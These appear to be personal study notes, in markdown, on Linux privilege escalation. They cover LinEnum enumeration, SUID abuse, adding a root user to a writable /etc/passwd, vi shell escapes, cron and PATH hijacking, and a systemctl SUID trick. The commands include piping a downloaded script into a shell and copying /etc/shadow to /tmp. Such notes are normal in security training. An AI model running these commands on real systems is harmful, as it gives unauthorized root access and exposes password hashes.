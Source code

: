 # Common Privsec in Linux

## Enumeration

LinEnum:

~~~
Usage:
python -m http.server [own machine]

wget <ip address of machine>/LinEnum
chmod +x LinEnum

./LinEnum

OPTIONS:
-k	Enter keyword
-e	Enter export location
-s 	Supply user password for sudo checks (INSECURE)
-t	Include thorough (lengthy) tests
-r	Enter report name (save report to current directory)
-h	Displays this help text

or 

curl <ip address>/LinEnum.sh | sh (cannot specify options)
~~~

Important outputs of LinEnum:
- Kernel: Kernel Information is shown here.
- Can we read/sensitive files.
- SUID Files: 
- Group membership: Says which users are in which group.
- Crontab Content:

## Abusing SUID/SGID files

- First set in privsec is checking SUID/GUID set up.
- SUID is set user ID/ SGID is set group ID.

~~~
SUID:
rws-rwx-rwx

SGID:
rwx-rws-rwx
~~~

Find SUID/SGID

~~~
find / -perm -u=s -type f 2>/dev/null
~~~

## Exploiting writeable /etc/passwd

- /etc/passwd is plain text
- Write permission should be only for root/superusers.
- Can be exploited if user has accidentently added to a write-group.

### Format of /etc/passwd

user:x:0:0:root:/root:/bin/bash

- Username: Used when the user logins.
- Password: x means it is encrypted in the etc/shadow file.
- User ID (UID): Each user is assigned a user ID. UID 0 is root, UID 1-99 for non.
- Group ID (GID): Primary group ID.
- User ID info: Comment field for the user, can contain phone numbers etc.
- Home directory: Absolute path to home directory.
- Command/shell: Abosulte path to command shell.

Exploting etc/passwd is easy, just create a new user.

- Need to create a password hash to add to the password section of /etc/passwd file  

~~~
openssl passwd -1 -salt [salt] [password]
~~~  
- Add to /etc/passwd

## Escaping vi Editor

- sudo -l checks which commands can be run as sudo.
- Running vi as sudo then :!sh escapes vi into root.

### Misconfigured Binaries and GTFObins.

-  GTFOBins is a list of Unix binaries that can be exploited  to bypass local security restrictions.
  (https://gtfobins.github.io/)
- If a misconfigured binary is found then look it up in GTFOBins.

## Exploiting Crontab

- View active cronjobs using cat /etc/crontab

### Cronjob format

~~~
# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

* = means blank

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly

~~~

Exploiting cronjob. Replace cronjob script with payload from msfvenom.

## Exploiting PATH Variable

- PATH specifies direcoties that hold executable programmes.
- When a command is run the executable file is searched using path variables.

### How to exploit path variables (example with SUID).
- Find an SUID with root.
- If the SUID runs a command the path can to the command can be changed.

~~~
cd /tmp

echo "/bin/bash" > [command to be run] 

chmod +x 
export PATH=/tmp:$PATH

run SUID.

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
(this resets the path)

~~~ 
	 
## Exploiting systemctl SUID

~~~
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "command you want here i.e cat /etc/shadow > /tmp/passwrds"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
~~~